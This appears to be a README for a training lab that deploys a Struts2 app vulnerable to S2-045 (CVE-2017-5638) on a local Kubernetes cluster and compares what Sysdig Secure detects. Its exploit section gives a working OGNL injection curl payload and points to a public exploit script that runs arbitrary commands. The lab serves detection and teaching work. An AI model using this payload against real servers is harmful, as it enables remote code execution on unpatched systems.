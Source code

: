 # Vulnerable Struts2 (S2-045) Lab

In this lab, you will deployed a Vulnerable Struts2 workload (S2-045 / CVE-2017-5638) in Kubernetes.

1. **Confirm** you can reach the vulnerable app.  
2. **Exploit** it using a simple malicious payload.  
3. **Observe** detection events in Sysdig Secure.

----------

## 1. Access the Struts2 Application

-  Your environment can be deployed using the `setup_struts_deployment.sh` file and a pre-configured cluster hosting the Sysdig Detection Agent.  

-  The application will expose on **NodePort 30080**.  

-  Go to `http://localhost:30080` in a browser or use curl:
 
   curl -v http://localhost:30080

-  If properly configured - You should recieve a simple file upload form!

-----------

## 2. Exploit  

- **Trigger the RCE** by issuing and analyzing the output of: 

`curl -v -X POST -H "Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',668.5*2)}.multipart/form-data" http://localhost:30080`

- Alternatively you may use ExplpoitDB's python exploit @ `https://www.exploit-db.com/exploits/41570`
  Usage: `python2 <script> <url> <command>`

-----------

## 3. **Detection**

- A clear distinction must be made here on how to detect this attack and the limitations posed with Run Time analysis.
- The curl command executes successfully returning 1337 in our custom header "vulhub"
- However, will not be picked up in **Sysdig** as no process was spawned, no file was accessed, and no network anomalies were detected.
- On the otherhand, the python script does yield a **Medium** severity in Sysdig.
- In Sysdig: Navigate to "**Threats**" -->  "**Sysdig Runtime Notable Events**" --> **Event ID: 18191e49f34866df273474732a500c25**
- In short, a header injection will not trigger in Sysdig but a new system process such as 'cat' will. 

